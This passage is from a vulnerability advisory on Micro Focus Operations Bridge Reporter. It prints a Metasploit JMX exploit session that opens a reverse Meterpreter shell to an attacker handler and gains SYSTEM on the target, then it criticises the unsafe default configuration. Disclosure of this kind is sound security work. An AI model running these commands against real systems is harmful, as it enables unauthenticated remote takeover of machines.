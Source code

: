 On Windows we get code execution as SYSTEM:

```
msf5 > use exploit/multi/misc/java_jmx_server
msf5 exploit(multi/misc/java_jmx_server) > set rhost 10.10.10.204
rhost => 10.10.10.204
msf5 exploit(multi/misc/java_jmx_server) > set rport 21416
rport => 21416
msf5 exploit(multi/misc/java_jmx_server) > run

[*] Started reverse TCP handler on 10.10.10.1:4444
[*] 10.10.10.204:21416 - Using URL: http://0.0.0.0:8080/Z6cXtS1p
[*] 10.10.10.204:21416 - Local IP: http://192.168.1.222:8080/Z6cXtS1p
[*] 10.10.10.204:21416 - Sending RMI Header...
[*] 10.10.10.204:21416 - Discovering the JMXRMI endpoint...
[+] 10.10.10.204:21416 - JMXRMI endpoint on 127.0.0.1:49162
[*] 10.10.10.204:21416 - Proceeding with handshake...
[+] 10.10.10.204:21416 - Handshake with JMX MBean server on 127.0.0.1:49162
[*] 10.10.10.204:21416 - Loading payload...
[*] 10.10.10.204:21416 - Replied to request for mlet
[*] 10.10.10.204:21416 - Replied to request for payload JAR
[*] 10.10.10.204:21416 - Executing payload...
[*] Sending stage (53927 bytes) to 10.10.10.204
[*] Meterpreter session 1 opened (10.10.10.1:4444 -> 10.10.10.204:50089) at 2020-05-08 00:08:27 +0700

meterpreter > shell
Process 1 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\HPE-OBR\PMDB\adminServer>whoami
whoami
nt authority\system
```

It should be noted that the OBR documentation includes a ["Hardening" section](https://docs.microfocus.com/itom/Operations_Bridge_Reporter:10.40/Secure_Deployment/Hardening_the_Operation_Bridge_Reporter/Java_JMX) that specifies how to secure the JMX endpoint.

However I believe this is **an extremely unsafe default configuration**, and the risk is not properly explained to the administrator that is installing OBR for the following reasons:

* Exposed JMX endpoints without authentication are extremely dangerous as they lead to automatic code execution (as demonstrated above)
* There is no mention of this danger in the Hardening documentation
* The procedure to add authentication is complex, and since the dangers are not explained, there is a real risk most administrators will ignore this **apparently optional** configuration
* No product should have such unsafe defaults that allow unauthenticated remote code execution out of the box as SYSTEM / root!


### #5: Incorrect Default Folder Permissions (resulting in Privilege Escalation to SYSTEM / root)
* [CWE-276: Incorrect Default Permissions](https://cwe.mitre.org/data/definitions/276.html)
* [CVE-2020-11855](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11855) / [ZDI-20-1217](https://www.zerodayinitiative.com/advisories/ZDI-20-1217/)
* Risk Classification: Critical
* Attack Vector: Local
* Constraints: None / N/A
* Affected Products / Versions:
    * Micro Focus Operations Bridge Reporter 10.40 (earlier versions likely affected)
